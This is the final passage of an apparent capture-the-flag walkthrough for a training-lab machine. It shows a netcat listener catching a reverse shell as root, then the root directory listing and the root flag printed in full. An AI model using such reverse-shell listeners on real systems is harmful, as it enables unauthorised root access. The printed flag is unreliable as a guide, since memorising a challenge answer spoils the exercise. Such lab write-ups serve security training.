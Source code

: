 On my machine:
~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Easy_Peasy/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.25] from (UNKNOWN) [10.10.141.79] 50934
bash: cannot set terminal process group (1765): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# id
uid=0(root) gid=0(root) groups=0(root)
~~~

### Root Flag

Now we can easily head to `/root` and read the root flag:

~~~
root@kral4-PC:~# cd /root
root@kral4-PC:~# ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Oct 16 02:50 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
~~~

Root flag: `flag{63a9f0ea7bb98050796b649e85481845}`

# D0N3!  ; )

Thanks to the creator(s)! 

Hope you had fun.

Have a g00d one! : )